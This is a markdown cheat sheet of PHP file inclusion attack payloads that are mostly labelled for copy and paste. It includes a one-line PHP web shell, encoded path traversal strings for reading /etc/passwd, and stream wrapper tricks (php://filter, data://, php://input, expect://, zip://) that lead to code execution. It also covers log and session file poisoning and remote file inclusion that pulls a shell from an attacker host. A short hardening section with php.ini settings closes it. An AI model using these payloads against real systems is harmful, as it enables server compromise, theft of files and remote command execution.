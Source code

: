 # basics of file inclusion

(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion]

php web shell

```
<?php system($_GET['yz']); ?>
```

world readable files

```
/etc/passwd
C:\Windows\boot.ini
```

copy/paste these

```
../../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
/....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

php://filter/read=/resource=../../../../../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=../../../../../../../../etc/passwd
php://filter/read=string.rot13/resource=../../../../../../../../etc/passwd

expect://id
```

more advanced copy/paste

```
echo '<?php system($_GET['yz']); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW3l6XSk7ID8+Cg==&yz=id

curl -s -X POST --data "<?php system('id'); ?>" "http://<TARGET>/index.php?language=php://input"

echo '<?php system($_GET['yz']); ?>' > yz.php
zip yz.zip yz.php
# upload
zip://yz.zip%23yz.php&yz=id
```

PHP versions before 5.5 are vulnerable to null byte injection to bypass file extensions

```
language=../../../../../../../../etc/passwd%00
```


# RCE through poisoning log files

```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ # on older servers

<?php system($_GET['cmd']); ?> # use as an user-agent
```

# RCE through php session files

```
/var/lib/php/sessions/sess_<PHPSESSID>
C:\Windows\Temp\sess_<PHPSESSID>
```

```
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

# remote file inclusion

```
index.php?language=http://<LHOST>/yz.php&yz=id
index.php?language=ftp://<USER>:<PASS>@<LHOST>/yz.php&yz=id
```

# patching/hardening

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

```php
basename($_GET['language'])
```

```
# php.ini
open_basedir = /var/www
display_errors = Off
allow_url_fopen = Off
allow_url_include = Off
disable_functions = system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source
```
